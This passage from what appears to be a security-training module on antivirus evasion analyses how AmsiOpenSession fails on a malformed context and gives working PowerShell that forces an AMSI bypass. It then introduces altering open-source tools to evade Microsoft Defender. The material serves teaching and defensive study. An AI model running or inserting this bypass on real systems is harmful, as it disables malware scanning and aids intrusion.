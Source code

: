 ![image](https://academy.hackthebox.com/storage/modules/254/2/11.png)

Note: For the purposes of this module, it is not strictly necessary to understand how `IDA` works. However, students who are interesting in gaining a deeper understanding are recommended to take a look at the [Introduction to Malware Analysis](https://academy.hackthebox.com/module/227) module.

In `AmsiOpenSession`, we can see that if the first four bytes of `amsiContext` ( `rcx`) are not equal to `"AMSI"`, then the function will return `0x80070057`.

![image](https://academy.hackthebox.com/storage/modules/254/2/9.png)

Looking up this value, we can see that `0x80070057` is one of the many error code HRESULT values. This one specifically means `"One or more arguments are invalid"`.

![image](https://academy.hackthebox.com/storage/modules/254/2/10.png)

Since this would mean `AmsiOpenSession` failed, we know that `amsiInitFailed` would be then set to `true`, which we already know leads to `AMSI` being bypassed.

We can write the following `PowerShell` code to carry out this attack.

```powershell
$utils = [Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils');
$context = $utils.GetField('amsi'+'Context','NonPublic,Static');
$session = $utils.GetField('amsi'+'Session','NonPublic,Static');

$marshal = [System.Runtime.InteropServices.Marshal];
$newContext = $marshal::AllocHGlobal(4);

$context.SetValue($null,[IntPtr]$newContext);
$session.SetValue($null,$null);

```

First a 4-byte large buffer is allocated and assigned to `amsiContext`. Next, `amsiSession` is set to `null`, to ensure the necessary `if-branch` is taken.

![image](https://academy.hackthebox.com/storage/modules/254/2/49.png)

Downloading and executing this script results in `AMSI` being bypassed as expected.

![image](https://academy.hackthebox.com/storage/modules/254/2/12.png)


# Open-Source Software

## Introduction

As mentioned at the end of the the `Dynamic Analysis` section, it is oftentimes the case that developing custom tooling is not possible due to time and/or budget constraints, and so it is necessary to rely on open-source software. Naturally, such tools are well-known to antivirus solution providers, and so they develop signatures to detect them. In this section, we will look at two different ways to modify open-source software so that `Microsoft Defender Antivirus` will not detect them.
